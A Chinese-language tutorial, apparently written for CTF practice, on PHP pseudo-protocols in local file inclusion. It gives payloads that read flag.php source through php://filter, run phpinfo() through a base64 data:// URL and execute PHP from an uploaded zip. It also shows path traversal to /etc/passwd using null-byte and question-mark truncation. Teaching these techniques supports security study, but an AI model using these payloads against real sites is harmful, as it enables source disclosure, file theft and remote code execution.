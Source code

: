 # php伪协议

## 1. 种类总结

```protocal
file:// — 访问本地文件系统
http:// — 访问 HTTP(s) 网址
ftp:// — 访问 FTP(s) URLs
php:// — 访问各个输入/输出流（I/O streams）
zlib:// — 压缩流
data:// — 数据（RFC 2397）
glob:// — 查找匹配的文件路径模式
phar:// — PHP 归档
ssh2:// — Secure Shell 2
rar:// — RAR
ogg:// — 音频流
expect:// — 处理交互式的流
```
## 2. 利用方法

### 2.1.php://filter

`php://filter`用于读取源码

```url
?page=php://filter/read=convert.base64-encode/resource=../flag.php
```

## 2.2.file://

用于访问本地文件系统，不受`allow_url_fopen`与`allow_url_include`的影响

即`file:// [文件的绝对路径和文件名]`

```url
?path=file:///var/www/html/flag.txt
```

## 2.3.php://input

`php://input` 可以访问请求的原始数据的只读流, 将`post`请求中的数据作为`PHP`代码执行

`php://input` 可以用来生成一句话

利用该方法，我们可以直接写入`php`文件，输入`file=php://input`，然后使用`burp`抓包，写入`php`代码

![](./img/26-1.png)

## 2.4.data://

利用`data://`伪协议可以直接达到执行`php`代码的效果，例如执行`phpinfo()`函数：

![](./img/26-2.png)

如果此处对特殊字符进行了过滤，我们还可以通过`base64`编码后再输入：

?page=data://text/plain;base64,PD9waHAgcGhwaW5mbygpPz4=

## 2.5.zip://, bzip2://, zlib://
`zip://`, `bzip2://`, `zlib://` 均属于压缩流，可以访问压缩文件中的子文件，不需要指定后缀名

如果网站允许我们上传压缩文件，我们也可以将`php`文件压缩后进行上传，再通过`zip://`协议执行。（需要绝对路径）

以`DVWA`平台为例，我们将`phpinfo.php`文件进行压缩后上传

![](./img/26-3.png)

通过zip://协议执行zip压缩包中的phpinfo.php文件：

![](./img/26-4.png)

[参考链接之肖洋肖恩、](https://www.cnblogs.com/-mo-/p/11736445.html)


## 3.绕过方式

### 3.1. 绕过添加的.php和其他额外的文件结尾

通常通过 `php` 代码添加文件扩展名。这是它的样子：

```php
$file = $_GET['file'];
require($file . ".php");
```

#### 3.1.1 方法一 nullbyte %00

`php` 被添加到文件名中，这意味着我们将无法找到我们正在寻找的文件。由于该文件 `/etc/passwd.php` 不存在。但是，如果我们将 `nullbyte` 添加到攻击字符串的末尾， `.php` 则不会考虑 。因此，我们添加到 `%00` 攻击字符串的末尾。

```url
http://example.com/page=../../../../../../etc/passwd%00
```

这种技术通常称为 `nullbyte` 技术，因为 `%00` 是 `nullbyte`。该技术仅适用于 `php 5.3` 以下的版本。所以要注意这一点。

#### 3.1.2 问号隔断

```url
http://example.com/page=../../../../../../etc/passwd?
```

